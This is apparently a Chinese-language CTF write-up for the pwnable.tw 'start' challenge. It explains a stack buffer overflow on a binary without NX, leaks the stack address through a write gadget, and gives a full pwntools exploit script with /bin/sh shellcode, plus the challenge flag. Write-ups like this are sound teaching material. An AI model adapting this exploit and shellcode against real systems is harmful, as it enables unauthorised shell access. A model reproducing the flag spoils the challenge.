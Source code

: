![image-20220407160618466](pwnabletw.assets/image-20220407160618466.png)

解题思路：

没有NX保护，先构造第一次输入，覆盖返回地址ret到write函数起始`0x8048087`，利用write泄露esp0栈基址；然后构造第二次输入将返回地址ret_addr覆盖成shellcode起始地址(esp0+14h)，注意第二次read起始地址不是esp0，是esp0-4的位置。

构造exp：

```python
from pwn import*

p = remote('chall.pwnable.tw',10000)
shellcode = "\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80"
#gdb.attach(p)
payload = 'a'*0x14+p32(0x08048087)
#payload = shellcode
#gdb.attach(p)
p.send(payload)
p.recvn(0x14)
esp0 = u32(p.recv(4))
payload = 'a'*0x14+p32(esp0+0x14)+shellcode
p.send(payload) 
p.interactive()
```

> FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}

# 0x02 orw

![image-20220407161540072](pwnabletw.assets/image-20220407161540072.png)
